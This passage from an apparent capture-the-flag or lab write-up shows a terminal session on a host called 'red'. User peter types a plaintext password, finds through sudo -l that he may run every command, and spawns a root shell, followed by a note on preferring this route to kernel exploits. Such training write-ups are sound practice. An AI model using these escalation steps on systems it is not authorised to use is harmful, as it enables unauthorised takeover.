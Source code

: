 ```bash
~).  This function can help you with a few settings that should
make your use of the shell easier.

You can:

(q)  Quit and do nothing.  The function will be run again next time.

(0)  Exit, creating the file ~/.zshrc containing just a comment.
     That will prevent this function being run again.

(1)  Continue to the main menu.

(2)  Populate your ~/.zshrc with the configuration recommended
     by the system administrator and exit (you will need to edit
     the file by hand, if so desired).

--- Type one of the keys in parentheses --- q
q^J
red%                                                                           
red% whoami                                                                    
whoami
peter
red% sudo -l                                                                   
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for peter: JZQuyIN5

Matching Defaults entries for peter on red:
    lecture=always, env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User peter may run the following commands on red:
    (ALL : ALL) ALL
red% sudo /bin/bash                                                            
sudo /bin/bash
root@red:~# whoami
whoami
root
```

Note: there were several kernel- and OS-based exploits that I could've used to gain root access. However, these usually take a lot of trial and error (due to being unstable, not working anymore for whatever reason, not fully understanding how to use them, etc.) and can disrupt the target's machine. Whenever I have to choose between two ways to escalate privileges to root I usually choose the one that doesn't involve kernel/OS exploits, as I've done here. The same goes for `metasploit` options that are  limited on the exam for the [OSCP certification](https://www.offensive-security.com/pwk-oscp/) - I try to stay away from those whenever I see alternatives.
